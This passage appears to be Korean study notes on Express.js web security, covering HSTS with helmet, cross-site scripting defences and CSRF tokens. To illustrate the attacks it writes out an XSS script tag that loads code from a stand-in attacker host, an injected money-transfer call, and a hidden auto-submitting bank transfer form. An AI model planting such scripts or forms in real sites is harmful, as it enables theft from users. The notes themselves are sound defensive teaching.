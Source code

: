 - helmet 미들웨어와 ms 모듈을 설치했다. 
- helmet을 통해 HSTS기능을 적용하고 ms를 통해 "2 days" 같이 사람이 쓰는 문자열을 밀리초로 변환 해줬다.

## 5. 교차 사이트 스크립팅 공격 방어
- XSS(교차 사이트 스크립팅) 공격은 쉽게 생각하면 입력하는 곳에 스크립트를 넣어버리는 것이다.
- 이름에 Jeong pro<script>tansferMoney(1000000,"jeong amateur");</script>를 넣는다면 계좌 이체가 되어버릴 수 도 있다.
- 또한 <script src="http://jeongama.biz/hacker.js"></script>를 추가할 수도 있다.
### 방어법
- 1) 일단 유효성 검사를 통해서 불가하게 할 수 있고, 긴 입력이 불가하게 막을 수도 있다.
- 2) html태그를 무력화 시켜버리는 것도 있다.
  - hello <script src="http://jeongama.biz/hacker.js"></script>가hello &lt;script src="http://jeongama.biz/hacker.js"&gt;&lt;/script&gt; 으로 변환 되는 것이다. 
  - 이런 escape 처리는 템플릿 엔진으로 처리 한다. Pug는 자동 처리되고 ejs는 <%= myString %>을 사용하고 <%- userString %>을 사용하지 않는다.
- 3) URL을 입력해야 한다면 encodeURI 함수를 호출해 URL이 안전한지 확인해야 한다.
- 4) html특성 내에 뭔가 넣기(링크의 href)를 한다면 사용자가 인용부호를 넣을 수 없는지 확인해야한다. 또한 DB에 넣기전에도 검사하는 것도 좋다.
- 5) HTTP헤더로 완화하기

``` javascript  
app.use(helmet.xssFilter());
```

- 한 문장으로 이용해서 X-XSS-Protection 보안헤더를 작성. 
- 이것으로 검색엔진에서 "<script src="http://jeongama.biz/hacker.js"></script>" 로 검색하는 경우 url을 보호할 수 있다.

## 6. CSRF (교차 사이트 요청 위조)
- 은행 사이트를 예로 들면 이체 양식 post form이 있다. 은행은 어차피 쿠키가 올바른 것을 확인하고 이체를 하는데 이런 보안 방법을 악용해서 내가 POST요청을 만드는 즉, 해커가 심어놓으면 내 쿠키의 값이 올바른 것을 확인하고 이체가 되게 만들어 버릴수 있다.
- CSRF 공격을 성사시키기 위해서는 아무도 모르게 양식을 제출해야한다.

``` html
<h1>Transfer money</h1>
<form method="post" action="https://mybank.biz/transfermoney">    
  <input name="recipient" value="yourname" type="text">    
  <input name="amount" value="1000000" type="number">    
  <input type="submit">
</form>
```

- 이렇게 만들면 의심스러워서 보통 submit을 누르지 않는다.따라서 해커는 자동으로 제출해버리는 방법을 택한다.

``` javascript 
<script>
  var formElement = document.querySelector("form");
  formElement.submit();
</script>
```

- 이렇게 자기의 폼과 자동 제출을 넣은 것을 iframe으로 보이지 않게 해버린다.
- CSRF 보호 방법은행에서 특정 폼에대한 HTML을 전송할 때 숨긴 요소(토큰)을 양식에 추가한다.
- 토큰은 완전 랜덤하고 추측이 어려운 문자열이다. <input name="_csrf" type="hidden" value="1dmkTnkHePmTB0d1glhm">이제 양식을 제출하고 POST요청을 할 때 은행은 csrf토큰이 방금 받은 것과 일치하는지 확인한다.
